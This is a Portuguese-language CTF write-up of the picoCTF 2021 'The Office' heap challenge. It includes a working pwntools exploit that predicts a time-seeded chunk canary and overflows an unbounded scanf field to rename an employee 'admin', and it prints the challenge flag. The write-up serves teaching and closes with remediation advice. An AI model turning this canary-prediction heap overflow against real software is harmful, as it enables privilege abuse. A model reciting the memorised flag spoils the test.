

# The Office | picoCTF 2021

`pwn` `heap` `heap-overflow` `canary` `srand-time` `pwntools`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2021 |
| **Categoria** | Binary Exploitation |
| **Dificuldade / pontos** | Hard |
| **Autor do desafio** | madStacks |
| **Resolvido em** | 2026-05-18 |

## TL;DR

O binário tem um "malloc caseiro" com canário por chunk, mas o canário é `rand()` com `srand(time(0))` — previsível. O campo **Phone** é lido com `scanf("%s", ...)` sem limite, o que estoura para o cabeçalho do chunk seguinte. Eu crio dois funcionários, libero o primeiro e o recrio, usando o overflow do Phone para reescrever o cabeçalho do funcionário 1 com o canário correto (previsto pelo relógio) e sobrescrever o nome dele para `admin`. Com isso, "Get access token" me trata como admin e imprime a flag.

> [!IMPORTANT]
> **Ideia-chave:** um canário só protege se for imprevisível. Aqui ele vem de `srand(time(0))`, então eu reproduzo o mesmo `rand()` localmente e passo pela verificação do heap enquanto estouro o chunk vizinho.

## Enunciado

> I'm tired of having to secure my data on the heap, so I decided to implement my own version of malloc with canaries. It's 10x more secure and only 100x slower!

**Dica oficial:**

> The heapcheck function contains a lot of useful debugging info. See if you can get it to work.

**Arquivos:** `the_office` (ELF 32-bit). **Instância:** serviço por socket.

## Dicas progressivas

<details><summary>Dica 1</summary>O alocador guarda um canário no cabeçalho de cada chunk. De onde ele vem?</details>
<details><summary>Dica 2</summary>O canário é <code>rand()</code> depois de <code>srand(time(0))</code>. Dá para prever reproduzindo o mesmo cálculo.</details>
<details><summary>Dica 3</summary>O campo Phone usa <code>scanf("%s")</code> sem limite: estoure o Phone de um chunk recriado até o cabeçalho + nome do funcionário vizinho, escrevendo o canário certo e <code>admin\0</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux 32-bit libs, com `pwntools` e `gcc` (ou `ctypes` + `libc.so.6` do sistema).
- **Arquivos:** `the_office` na raiz da pasta do desafio.

Na minha instância o serviço estava em `wily-courier.picoctf.net:61975`.

## Resolução

### 1. Reconhecimento e a vulnerabilidade

`the_office` é um ELF 32-bit com um menu de funcionários (adicionar, remover, listar, pegar token de acesso). Ele implementa o próprio alocador: cada chunk tem um cabeçalho com um **canário** e campos de tamanho/estado. O campo **Phone** é lido assim:

```c
scanf("%s", employee + 0x18);   // sem limite de tamanho
```

Isso é um estouro de heap: dá para escrever além do espaço do funcionário, chegando ao cabeçalho do chunk seguinte. O obstáculo é o canário no meio do caminho — se eu sobrescrever o cabeçalho com um canário errado, o `heapcheck` aborta.

> [!TIP]
> **Conceito: canário previsível (`srand(time(0))`).** `rand()` é um PRNG determinístico; semeado com o horário (`time(0)`, resolução de 1 segundo), toda a sequência fica definida pelo segundo em que o processo começou. Reproduzindo `srand(ts); rand()` para o `ts` certo (com uma janela de alguns segundos para o skew de relógio), eu prevejo o canário e escrevo o valor correto no overflow. Referência: [`rand(3)`](https://man7.org/linux/man-pages/man3/rand.3.html).

### 2. Layout: do Phone de um chunk ao vizinho

Confirmando localmente o layout, a partir do início do **Phone** do funcionário 0 (recriado no espaço liberado):

- 28 bytes até o **cabeçalho** do funcionário 1;
- o cabeçalho é `canário (4)` + `size|allocated = 52|1 = 53` + `prev_size|prev_allocated = 53`;
- em seguida começa o **user data** do funcionário 1 (o nome).

Então o plano é: criar funcionário 0 e 1, liberar o 0, recriá-lo e, no Phone do 0 recriado, escrever `28*'A' + canário + 53 + 53 + "admin\0"`. Isso reconstrói um cabeçalho válido para o 1 (passa no `heapcheck`) e troca o nome do 1 para `admin`, que é o que a checagem de privilégio olha.

> **Por que recriar o 0:** o "admin" é barrado na criação; sobrescrevendo o nome **depois**, pela borda do chunk vizinho, eu contorno essa checagem.

### 3. Prevendo o canário e disparando

O canário tem que sobreviver ao `scanf("%s")`, que corta em whitespace — então descarto qualquer canário que contenha bytes `0x09..0x0d` ou `0x20`. Faço força bruta numa janela de segundos em volta do `time(0)` do servidor.

#### `scripts/script1.py` (+ [`scripts/canary.c`](scripts/canary.c))

O exploit remoto completo está em [`scripts/script1.py`](scripts/script1.py). O núcleo da previsão e do payload:

```python
from pwn import *
from ctypes import CDLL
import time

HOST, PORT = "wily-courier.picoctf.net", 61975
libc = CDLL("libc.so.6")
BAD = {0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x20}   # scanf("%s") corta nesses bytes

def predict_canary(ts):
    libc.srand(ts)
    return libc.rand()

def safe_for_scanf(x):
    return all(b not in BAD for b in p32(x))

def attempt(canary):
    p = remote(HOST, PORT)
    add_employee(p, name=b"AAAA")                 # employee 0
    add_employee(p, name=b"victim")               # employee 1 (vítima)
    remove_employee(p, 0)                          # libera o 0
    payload  = b"A"*28                             # até o header do employee 1
    payload += p32(canary) + p32(53) + p32(53)     # header válido
    payload += b"admin\x00"                        # nome do employee 1 -> admin
    add_employee(p, name=b"CCCC", phone=payload)   # recria o 0, estoura no 1
    get_token(p, 1)                                # imprime a flag se for admin
    out = p.recvall(timeout=3)
    print(out.decode(errors="replace"))
    return b"picoCTF{" in out

for _ in range(80):                                # repete com janela de tempo
    now = int(time.time())
    for ts in range(now - 5, now + 8):
        c = predict_canary(ts)
        if safe_for_scanf(c) and attempt(c):
            raise SystemExit
    time.sleep(0.15)
```

`canary.c` é a mesma previsão em C (`srand(time(0)+offset); printf("%d", rand())`), útil para validar a semente contra a versão de `rand()` do servidor sem depender da `libc` da minha máquina.

***INSERIR no terminal — Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
[+] FLAG ENCONTRADA
picoCTF{3fd0654775103b5e18118f936fb8cd19}
```

## Cadeia de ataque



## Por que funciona

A proteção do alocador é o canário no cabeçalho, mas ele é gerado por um PRNG semeado com o tempo, então é previsível com resolução de segundos — eu escrevo o valor certo e o `heapcheck` não percebe o estouro. A primitiva de escrita vem do `scanf("%s")` sem limite no Phone, que atravessa a fronteira do chunk e alcança o cabeçalho e o nome do funcionário vizinho. Sobrescrevendo o nome para `admin` depois da checagem anti-admin, a rotina de token me promove e revela a flag.

## Remediação

- Canário com fonte criptográfica (`/dev/urandom`, `getrandom`), nunca `rand()`/`time()`.
- Leitura com limite (`fgets`/`scanf("%31s")`) para o campo Phone, eliminando o overflow.
- Validar `admin` no servidor de forma que não dependa de um campo sobrescrevível adjacente na heap.

## Lições e padrões

- **Sinais para reconhecer:** "canário caseiro" + qualquer `rand()`/`time()` = previsível. `scanf("%s")`/`gets` = overflow sem limite.
- **Da próxima vez eu tentaria primeiro:** mapear o layout do chunk localmente (distâncias Phone→header→nome do vizinho) antes de brigar com o remoto.
- **Onde perdi tempo:** descartar canários com bytes de whitespace — sem esse filtro, o `scanf` trunca o payload e o ataque falha silenciosamente.

## Referências

- [`rand(3)` / `srand(3)`](https://man7.org/linux/man-pages/man3/rand.3.html)
- [pwntools — tubes](https://docs.pwntools.com/en/stable/tubes.html)

## Flag

```text
picoCTF{3fd0654775103b5e18118f936fb8cd19}
```
